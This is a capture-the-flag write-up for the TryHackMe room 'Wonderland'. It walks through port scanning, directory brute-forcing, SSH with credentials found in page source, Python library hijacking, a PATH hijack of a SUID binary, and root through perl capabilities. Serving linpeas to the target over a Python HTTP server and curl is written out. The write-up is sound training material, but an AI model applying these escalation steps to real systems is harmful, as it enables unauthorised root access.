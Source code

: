 Room: [Wonderland](https://tryhackme.com/room/wonderland)

Difficulty: Medium

Overview: This room is really interesting has you are going to exploit diferent types of privilege escalations, from PATH hijacking, scripting, analyzing binaries and setuid capabilities will make you privesc horizontaly from user to user till you get to root!

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

We start enumerating the machine by running nmap. 

Nmap is a free and open source utility for network discovery and security auditing. With this tool we can search for open ports on a target machine.
```
nmap -sV -sC -p- 10.10.189.225 -oN nmap.txt

-sV    →  Probe open ports to determine service
-sC    →  Scan using the default set of scripts
-p-    →  Scan all ports
-oN    →  Save the ouput of the scan in a file
```
![nmap](https://user-images.githubusercontent.com/76821053/120692473-b7f40980-c49f-11eb-982b-ebe00cb8f77a.png)

There are two open ports on the system:

22 →  OpenSSH 7.6p1 Ubuntu 

80 →  Golang net/http server

Since there is a http server running on the system we can take a look at it:

![httphome](https://user-images.githubusercontent.com/76821053/120692565-d78b3200-c49f-11eb-8ead-c1b985a7d705.png)

After searching the webpage and its source code page i found nothing. So there is a tool called “Gobuster” which can help us search for hidden directories or files in http servers:
```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://10.10.189.225 -x .txt,.cgi,.php,.log,.bak,.xxx,.old

dir             → Uses directory/file enumeration mode
--wordlist      → Path to wordslist 
--url           → specifies the path of the target url we want to find any hidden directories
-x              → Search for all files with the specified extentions 
```
![gobuster_r](https://user-images.githubusercontent.com/76821053/120692664-fc7fa500-c49f-11eb-8f64-f80ed0af4e7b.png)

We found a new directory:

![http_r](https://user-images.githubusercontent.com/76821053/120696717-c2fd6880-c4a4-11eb-838c-d15350d0c805.png)

After reading the “Keep going” tip, i ran “Gobuster” again and found another directory:

![gobuster_a](https://user-images.githubusercontent.com/76821053/120692819-2df87080-c4a0-11eb-9b62-3ac1c16100d9.png)

So if we pay close attention to where this is leading us, we can figure it out, or else we can always keep going with “Gobuster”.

We arrived at the path **"/r/a/b/b/i/t"**:

![http_rabbit](https://user-images.githubusercontent.com/76821053/120692924-4cf70280-c4a0-11eb-8dbc-855abf925ed2.png)

In the source code of the webpage there are credentials for connecting to the target machine through ssh.

![http_source](https://user-images.githubusercontent.com/76821053/120693064-7748c000-c4a0-11eb-9570-425f75026a74.png)

We have access to the target machine with user "Alice":

![ssh_alice](https://user-images.githubusercontent.com/76821053/120693141-8d568080-c4a0-11eb-9499-54b91b12833b.png)

When enumerating the machine in search for the flags, we can see that The flag “root.txt” is in “alice” home directory which is odd.

![ls_la_alice](https://user-images.githubusercontent.com/76821053/120693204-a2331400-c4a0-11eb-9b9a-2518386f5302.png)

After checking the hint given by the room “Everthing is upside down here” i tried to access /root.

![ls_root](https://user-images.githubusercontent.com/76821053/120693289-bd9e1f00-c4a0-11eb-8ad7-c1fcbe77d01e.png)

This is very strange since we cannot list any files in here, but still i manage to have access to /root directory. 

So taking a wild guess from the tips of the room we can try to read "user.txt" inside /root and find the first flag!

![cat_user txt](https://user-images.githubusercontent.com/76821053/120693405-deff0b00-c4a0-11eb-85aa-6cb6886e0b78.png)

In order to elevate our privileges we can check "sudo -l":

![sudo_l](https://user-images.githubusercontent.com/76821053/120693519-0229ba80-c4a1-11eb-8a03-e3ae516d5721.png)

To exploit this permission given to “alice” and gain access to user "rabbit" we can check a usefull post on medium about python library hijacking:

You can check it out here:

https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

The script "walrus_and_the_carpenter.py" imports a module called random.

![script_walrus](https://user-images.githubusercontent.com/76821053/120693624-22597980-c4a1-11eb-96c5-a66b7a9e997e.png)

The random module is located in one of the defined python paths, but if python finds a module with the same name in a folder with higher priority, it will import that module instead of the “legit” one.

So if we try and create a “random.py” script that runs /bin/bash inside the same directory of “walrus_and_the_carpenter.py”. Maybe “walrus_and_the_carpenter.py” will call for this module instead of the defined python module paths.

Simple random.py script:

![simple_random](https://user-images.githubusercontent.com/76821053/120693774-592f8f80-c4a1-11eb-8bff-7b539b7fce35.png)

List the contents of the directory to make sure the scripts are in the same directory:

![list_folder_scripts](https://user-images.githubusercontent.com/76821053/120693870-76645e00-c4a1-11eb-98c6-2f6c1042ccac.png)

Now we just need to run the "sudo -l" command with "alice".

Note that we need to specify user “rabbit” since he is the one with sudo permissions to run that python script.

![alice_rabbit_privesc](https://user-images.githubusercontent.com/76821053/120694022-a3187580-c4a1-11eb-91db-e588c5e36d84.png)

Success we are now user “rabbit”, the script “walrus_and_the_carpenter.py" imported our “random.py” and ran it.

To further our privileges we will try to take advantage of a binary inside “rabbit” home directory:

![teaParty_rabbit](https://user-images.githubusercontent.com/76821053/120694146-c3e0cb00-c4a1-11eb-985b-a51767144fd0.png)

Run the binary:

![run_teaparty](https://user-images.githubusercontent.com/76821053/120694189-d22ee700-c4a1-11eb-87a3-2e60f53a814b.png)

The binary “teaParty” has SUID permissions, and to be able to read its contents we need to transfer it to our system, since we cannot run "strings" on the target machine.

To transfer the file to our system we need to change “rabbit” home directory permissions to "rwx (or 777)" for all users since we don't have "rabbits" ssh password.

![chmod_rabbit](https://user-images.githubusercontent.com/76821053/120694580-4ff2f280-c4a2-11eb-8107-e1065ce3a692.png)

From our machine we can run "scp" to download the file:
```
scp alice@10.10.189.225:/home/rabbit/teaParty .
```
![scp](https://user-images.githubusercontent.com/76821053/120694668-65681c80-c4a2-11eb-834b-15c31407b75f.png)

Now we gonna analyse the binary with "strings":

![strings_teaparty](https://user-images.githubusercontent.com/76821053/120694782-7f096400-c4a2-11eb-9419-da455c3d53f8.png)

We can see that the binary runs “/bin/echo” and also runs “date” but it don't specify the absolute path for "date".

This is another privilege escalation method here, we will take advantage of the SUID binary teaParty!

We have to create a small “date” bash script that executes /bin/bash and export $PATH to one specified by us and take advantage of “date” not having an absolute path.

![script_date](https://user-images.githubusercontent.com/76821053/120694943-ab24e500-c4a2-11eb-840e-5bf411021bbf.png)

Need to make “date” executable:

![chmod_date](https://user-images.githubusercontent.com/76821053/120694982-b9730100-c4a2-11eb-8d83-dbcebea4f85d.png)

Now just export the variable $PATH and run the binary:

![export_PATH](https://user-images.githubusercontent.com/76821053/120695104-e8897280-c4a2-11eb-8e86-803d5f22d0d4.png)

We manage the move horizontaly to another user and there is credentials in plain text in his home directory:

![hatter_creds](https://user-images.githubusercontent.com/76821053/120695203-0bb42200-c4a3-11eb-8772-8a03cfac1fc1.png)

I had a hard time with the user “hatter” in finding the last privilege escalation into “root” user.

we can use a tool called "[linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)" to automaticaly enumerate the system.

Now to upload the tool to the target system we need to started a python http server and use curl.

On our machine we setup the server where we host the “linpeas.sh” script:
```
python -m SimpleHTTPServer
```
![python_http](https://user-images.githubusercontent.com/76821053/120695863-c2180700-c4a3-11eb-85ee-d2251510af65.png)

From the target machine we will use curl:
```
curl http://yourmachineip:8000/linpeas.sh -o linpeas.sh
```
![curl_linpeas](https://user-images.githubusercontent.com/76821053/120695950-dcea7b80-c4a3-11eb-9a9c-44494c7f634c.png)

We need to make “linpeas.sh” executable:

![chmod_linpeas](https://user-images.githubusercontent.com/76821053/120695996-ed9af180-c4a3-11eb-80b8-592be139a4c2.png)

When running “linpeas.sh” i manage to found and interesting setuid binary capabilities:

![lin_capabilities](https://user-images.githubusercontent.com/76821053/120696069-03101b80-c4a4-11eb-8f58-114ca4412c41.png)

The root user (or any ID with UID of 0) gets special privileges running processes. The kernel and applications are usually programmed to skip the restriction of some activities when seeing this user ID. 

More info on setuid capabilities can be found [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities).

I searched [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/) and learned that **/usr/bin/perl** is found vulnerable to privesc.

![gtfobins](https://user-images.githubusercontent.com/76821053/120696194-2a66e880-c4a4-11eb-8d16-93fec8b6cf26.png)

Now to elevate our privileges to root we just need to execute this command:

![privesc_cat_root](https://user-images.githubusercontent.com/76821053/120696264-410d3f80-c4a4-11eb-877f-f4f6289e54c3.png)

Success! We found the last flag!














